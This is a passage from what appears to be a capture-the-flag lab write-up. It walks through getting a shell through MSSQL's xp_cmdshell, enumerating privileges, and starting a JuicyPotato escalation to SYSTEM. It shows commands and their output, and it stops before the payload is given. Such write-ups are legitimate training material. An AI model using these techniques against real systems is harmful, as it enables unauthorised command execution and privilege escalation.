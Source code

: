 Now I can run it and it connects:



    root@kali# rlwrap python alamot_mssql_shell.py 
    Successful login: df@10.13.38.11
    Trying to enable xp_cmdshell ...
    C:\WINDOWS\system32>



I won't have ctrl-c to kill something on target without exiting the
shell, but with `rlwrap` I've got arrow keys, it's stateful, and overall
a decent experience. It is running as poo_public:



    C:\WINDOWS\system32> whoami
    nt service\mssql$poo_public



### Priv to SYSTEM

This is the path I originally took, until I thought to try the
administrator creds over WinRM. It doesn't look like this will work
today, as the host is Server 2019, and Defender eats the JuicyPotato
binary very quickly on uploading it. I'll do my best to explain the path
with the notes I have from 15 months ago.

#### Enumeration

`whoami /priv` shows that (unsurprisingly since it's a service account)
this account has `SEImpersonatePrivilege`:



    C:\> whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                               State   
    ============================= ========================================= ========
    SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
    SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
    SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
    SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
    SeCreateGlobalPrivilege       Create global objects                     Enabled 
    SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled



#### JuicyPotato

[JuicyPotato](https://github.com/ohpe/juicy-potato) is an exploit to
move from `SEImpersonalPrivilege` to SYSTEM. I'll need a `.bat` file as
a payload. To test it, I'll just get a dir listing of the
administrator's desktop:

